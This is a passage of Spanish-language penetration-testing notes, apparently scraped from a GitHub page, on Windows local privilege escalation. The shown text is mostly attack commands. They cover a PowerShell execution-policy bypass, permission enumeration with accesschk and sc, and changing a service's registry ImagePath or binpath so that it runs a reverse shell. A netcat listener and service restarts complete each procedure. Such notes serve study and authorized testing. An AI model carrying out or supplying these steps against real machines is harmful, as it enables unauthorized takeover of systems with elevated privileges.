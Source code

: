 5º Listener en kali `nc -nlvp 53`
6º Paramos y encendemos el servicio `net stop SERVICIO / net start SERVICIO`

### Weak Registry Permissions
1º invocar una sesion de powershell 
~~~~c
>> powershell -exec bypass
~~~~

2º Preguntar la ACL lo que podemos hacer con ese servicio
~~~~c
>> Get-Acl PATH | Format-List
~~~~

3º  Preguntamos con accesschk los grupos que tienen permiso
~~~~c
>> .\accesschk.exe /accepteula -uvwqk PATH
~~~~

4º Preguntamos las acciones que podemos hacer al servicio
~~~~c
>> .\accesschk.exe -ucqv USUARIO SERVICIO
~~~~

5º Preguntar el estado del servicio
~~~~c
>> sc query SERVICIO
~~~~

6º Añadimos (cambiamos) el path del registro ImagePath  y le cambiamos por nuestra reverse shell
~~~~c
>> reg add PATH /v ImagePath /t REG_EXPAND /d C:\REVERSE /f
~~~~

7º Iniciamos listener con netcat

8º Reiniciamos el servicio `net stop SERVICIO / net start SERVICIO`

### Insecure Service Permission
1º De lo que nos de la tool de enumeracion enumeramos los servicios

2º Preguntamos los permisos que tiene nuestro usuario en el servicio
~~~~c
>> .\accesschk.exe /accepteula -uwcqv USUARIO SERVICIO
~~~~

3º Preguntar la configuaracion del servicio 
~~~~c
>> sc.exe qc SERVCIO
~~~~

4º Preguntar el estado del servicio 
~~~~c
sc.exe query SERVICIO
~~~~

5º  Intercambiar el binario por nuestra reverse shell
~~~~c
>> sc.exe config SERVICIO binpath= "\""C:\REVERSE"
~~~~
